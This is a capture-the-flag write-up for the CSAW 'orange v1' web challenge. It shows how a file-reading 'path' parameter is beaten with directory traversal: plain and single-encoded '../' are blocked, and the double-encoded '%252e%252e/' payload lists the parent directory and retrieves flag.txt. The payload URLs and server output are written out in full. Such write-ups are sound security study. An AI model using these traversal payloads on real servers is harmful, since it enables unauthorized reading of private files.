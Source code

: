 # orange v1

The challenge starts with a URL.

**http://web.chal.csaw.io:7311/?path=orange.txt**
```
i love oranges
```
From the URL, we can guess that this webserver is appending the value of **path** and using it to retrieve text files.

**http://web.chal.csaw.io:7311/?path=** 
```
Directory listing for /poems/
burger.txt
haiku.txt
orange.txt
ppp.txt
the_red_wheelbarrow.txt
```
After inspecting all of these txts, I couldn't find the flag, and figured it must be in some other directory. Since there were no sub-directories, there was nowhere to go but up.

**http://web.chal.csaw.io:7311/?path=../**
```
WHOA THATS BANNED!!!!
```
Hm, it seems to be doing some kind of filtering to prevent people from looking around.

So I tried encoding it to make it harder to detect.

**http://web.chal.csaw.io:7311/?path=%2e%2e%2f**
```
WHOA THATS BANNED!!!!
```
Alright, seems like they check for that.

But, did they account for someone double encoding it?

**http://web.chal.csaw.io:7311/?path=%252e%252e/**
```
Directory listing for /poems/../
    
.dockerignore
back.py
flag.txt
poems/
serve.sh
server.js
```
Apparently they didn't.

Found the location of the flag, now we just have to get it.

**http://web.chal.csaw.io:7311/?path=%252e%252e/flag.txt**
```
flag{thank_you_based_orange_for_this_ctf_challenge}
```